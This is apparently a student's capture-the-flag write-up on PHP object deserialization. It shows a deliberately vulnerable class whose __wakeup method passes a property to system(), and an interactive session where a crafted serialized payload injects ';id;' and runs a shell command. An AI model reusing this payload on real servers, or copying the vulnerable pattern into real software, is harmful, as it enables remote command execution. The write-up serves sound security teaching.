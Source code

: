 # Simple Web 0x16.5(php unserialize)
###### tags: `NTUSTWS` `CTF` `Web`

## Background
php magic method 
![](https://i.imgur.com/xQrh7vo.png)

## Source code
```php=
class cat
{
    public $sound = 'ls';
    function __wakeup()
    {
        system("echo".$this->sound);
    }
}
$cat = unserialize($_GET['cat']);
```
## Description & Analyze
```bash!
$ php -a
php > class cat
php >  public {
php {     public $sound = 'ls';
php {     function __wakeup()
php {     {
php {         system("echo ".$this->sound);
php {     }
php { }
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:"meow";}';
php > $cat = unserialize($_GET['cat']);
meow
php > $_GET['cat']='O:3:"cat":1:{s:5:"sound";s:4:";id;";}';
php > $cat = unserialize($_GET['cat']);

uid=1000(sbk6401) gid=1000(sbk6401) groups=1000(sbk6401),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
```
This is a typical command injection. The magic method `__wakeup()` will be called when unserialized something.
## Reference
